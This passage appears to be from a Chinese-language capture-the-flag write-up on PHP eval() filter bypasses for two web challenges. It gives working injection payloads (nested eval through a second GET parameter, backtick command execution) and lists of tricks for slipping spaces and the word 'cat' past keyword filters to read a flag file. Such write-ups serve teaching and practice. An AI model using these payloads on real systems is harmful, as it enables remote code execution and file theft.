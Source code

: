 ```php
if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
}
```

又过滤了 system php

不过还是 eval, 很灵活, 可以尝试跳出 preg_match 的限制

`http://7f626fea-3dee-431b-90a1-7c9555cd30a7.challenge.ctf.show/?c=eval($_GET[1]);&1=system('cat flag.php');`

或者用 PHP 的反引号执行命令

```
http://7f626fea-3dee-431b-90a1-7c9555cd30a7.challenge.ctf.show/?c=echo `cat fl*`;
```

## web31

```php
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
    eval($c);
}
```

过滤了点, 空格还有单引号

过滤空格的几种绕过方式如下

```bash
%09 (PHP 环境)
{cat,flag.php}
cat${IFS}flag.php
cat$IFS$9flag.php
cat<flag.php
cat<>flag.php
$a=$'\x20flag.php'&&cat$a (\x20 代表空格)
```

过滤 cat 的绕过方式

```bash
more
less
head
tail
nl
od
vi
vim
sort
uniq
file -f
strings
```
